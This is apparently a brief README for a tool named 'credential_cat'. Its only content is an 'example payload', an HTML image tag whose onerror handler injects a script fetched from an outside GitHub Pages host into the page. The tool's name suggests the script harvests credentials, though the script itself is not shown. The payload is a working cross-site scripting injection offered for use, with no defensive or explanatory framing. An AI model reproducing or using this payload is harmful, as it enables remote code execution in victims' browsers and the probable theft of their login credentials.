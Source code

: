 # credential_cat

### example payload:
> &lt;img src="jiji://a/404.png" width="1px" height="1px" onerror=" var s = document.createElement('script');s.src = 'https://astals.github.io/credential_cat/credential_cat.js' ;$('head').append(s);"&gt;
